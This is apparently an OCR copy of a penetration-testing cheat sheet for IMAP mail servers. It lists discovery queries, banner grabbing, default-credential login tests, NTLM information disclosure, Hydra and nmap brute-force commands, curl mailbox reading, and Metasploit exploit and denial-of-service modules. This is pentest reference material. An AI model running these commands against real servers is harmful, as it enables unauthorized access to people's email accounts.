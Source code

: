 IMAP

IMAP usually uses ports 143, 993

What is IMAP?

Internet Message Access Protocol (IMAP) is then used by the recipient’s email client to fetch your message from the email server and put it in their inbox.

![Untitled](media/c2df7591eeddcf74baf1bc6715352822.png)

-   **Port 143** - this is the default IMAP non-encrypted port
-   **Port 993** - this is the port you need to use if you want to connect using IMAP securely

| 1 2  | PORT STATE SERVICE VERSION 143/tcp open imap Dovecot imapd (Ubuntu)  |
|------|----------------------------------------------------------------------|

IMAP Pentesting

**![](media/af8e68b1d4ef60ad4ab180ccb81e05b5.png) Shodan search query :**
```
port:143, 993
port:143 CAPABILITY
port:993 CAPABILITY
```

**Banner Grabbing**

| **Command**                                          | **Description**                         |
|------------------------------------------------------|-----------------------------------------|
| **nc -nv IP 143**                                    | **Banner grabbing and test connection** |
| **A1 LOGIN “root” “”**                               | **Test login**                          |
| **A1 LOGIN root toor**                               | **Test login**                          |
| **A1 LOGIN root root**                               | **Test login**                          |
| **nmap -p143 -sV --script=banner 192.168.x.x**       | **Scan with nmap**                      |
| **nmap -p143 --script=imap-ntlm-info 192.168.x.x**   | **Scan with nmap**                      |
| **msf \> use auxiliary/scanner/imap/imap_version**   | **Metasploit scan**                     |
| **openssl s_client -connect 192.168.x.x:993 -quiet** | **OpenSSL scan**                        |
| **telnet 192.168.x.x 143**                           | **Telnet connection**                   |

![Untitled](media/106d913331db081744b551504e10b42e.png)

![Untitled](media/37a14970c357616cc251bd45cdec8385.png)

According to the answers to the sent queries, the features of the POP3 implementation (commands, etc.) can be determined.

| 1  | nmap -sV --script=imap-capabilities -p143 10.10.x.x  |
|----|------------------------------------------------------|

![Untitled](media/d7daf276120c9fd95b645cb54a24efcb.png)

**Capturing IMAP Traffic**

| **Command**                                  | **Description**          |
|----------------------------------------------|--------------------------|
| **msf \> use auxiliary/server/capture/imap** | **Capture IMAP traffic** |

**NTLM Auth - Information Disclosure**

**If the server supports NTLM auth (Windows), you can obtain sensitive info (versions):**

| **Command**                                                                                                                                                                                    | **Description**               |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------|
| **root@kali: telnet example.com 143**                                                                                                                                                          | **Connect via Telnet**        |
| **\* OK The Microsoft Exchange IMAP4 service is ready.**                                                                                                                                       | **Service ready**             |
| **\>\> a1 AUTHENTICATE NTLM**                                                                                                                                                                  | **Start NTLM authentication** |
| **+**                                                                                                                                                                                          | **Step in NTLM auth**         |
| **\>\> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=**                                                                                                                                          | **NTLM data**                 |
| **+ TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA** | **NTLM data**                 |

**Or automate this with nmap plugin imap-ntlm-info.nse.**


**Brute Forcing**

| **Command**                                                                                         | **Description**              |
|-----------------------------------------------------------------------------------------------------|------------------------------|
| **hydra -l USERNAME -P /path/to/passwords.txt -f \<IP\> imap -V**                                   | **Hydra brute force**        |
| **hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 192.168.x.x imap -V**                 | **Secure Hydra brute force** |
| **nmap --script=imap-brute –script-args userdb=Users.list,passdb=Passwords.list -p143 192.168.x.x** | **Nmap brute force**         |

![Untitled](media/4cccdbf82ab68e8dc85445f81df5ad8c.png)

Evolution

sudo apt install evolution

![Untitled](media/9a1a65706c8aaa317a115c632aa0b556.png) ![Untitled](media/cae833a8610c9a5ad244e9001d789622.png)

**CURL**

Basic navigation is possible with [CURL](https://ec.haxx.se/usingcurl/usingcurl-reademail#imap), but the documentation is light on details so checking the [source](https://github.com/curl/curl/blob/master/lib/imap.c) is recommended for precise details.

| **Command**                                                                                                     | **Description**                                 |                       |
|-----------------------------------------------------------------------------------------------------------------|-------------------------------------------------|-----------------------|
| curl -k 'imaps://10.10.x.x/' --user user:pass                                                                   | Listing mailboxes (imap command LIST "" "\\\*") |                       |
| curl -k 'imaps://10.10.x.x/INBOX?ALL' --user user:pass                                                          | Listing messages in a mailbox                   |                       |
| curl -k 'imaps://10.10.x.x/Drafts;MAILINDEX=1' --user user:pass                                                 | Downloading a message                           |                       |
| curl -k 'imaps://10.10.x.x/INBOX' -X 'UID SEARCH ALL' --user user:pass                                          | UID search                                      |                       |
| curl -k 'imaps://10.10.x.x/INBOX;UID=1' --user user:pass                                                        | Accessing messages by UID                       |                       |
| \`curl -k 'imaps://10.10.x.x/INBOX' -X 'FETCH 1:5 BODY[HEADER.FIELDS (SUBJECT FROM)]' --user user:pass -v 2\>&1 | grep '\\\^\\\<'\`                               | Fetch message headers |

**IMAP Vulnerabilities**

| **Command**                                         | **Description**                                   |
|-----------------------------------------------------|---------------------------------------------------|
| **msf \> use exploit/windows/imap/eudora_list**     | **Eudora Qualcomm WorldMail 3.0 [CVE-2005-4267]** |
| **msf \> use auxiliary/dos/windows/imap/fuzz_imap** | **IMAP Fuzzer**                                   |
